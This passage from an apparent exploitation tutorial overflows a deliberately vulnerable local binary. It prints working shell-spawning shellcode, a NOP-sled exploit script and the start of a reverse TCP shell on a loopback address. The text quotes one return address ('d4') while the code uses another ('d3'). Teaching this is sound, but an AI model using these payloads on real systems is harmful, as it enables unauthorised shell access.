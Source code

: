 After selecting memory, we replace our `\x42\x42\x42\x42` with `\xf4\xd4\xff\xff` (input of the address is entered backward!):        
```bash
./vuln $(python -c 'print "\x41" * (272-64-25-4) + "\x90" * 64 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80" + "\xf4\xd3\xff\xff"')
```

or via python script (`exploit.py`):
```python
#!/usr/bin/python
# exploit.py - final payload with spawn /bin/sh shellcode
shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"
padding = "\x41" * (272-64-len(shellcode)-4)
nop = "\x90" * 64
eip = "\xf4\xd3\xff\xff"
print padding + nop + shellcode + eip
```

```bash
./vuln $(python exploit.py)
```

![overflow 12](/assets/images/15/2021-10-20_16-07.png){:class="img-responsive"}    

As you can see, we put our shellcode which is `25` bytes in the middle of NOPs. And everything work perfectly, we are spawn a shell.

### reverse TCP shell

As an experiment, I tried to put another shellcode from my [post](/tutorial/2021/10/17/linux-shellcoding-2.html), reverse TCP shell on `127.1.1.1:4444`. Let's go to repeat the same steps but length of NOPs are larger - `96` bytes, because my shellcode is `74` bytes.    

Run my python script:
```bash
python super_shellcode.py -l 127.1.1.1 -p 4444
```
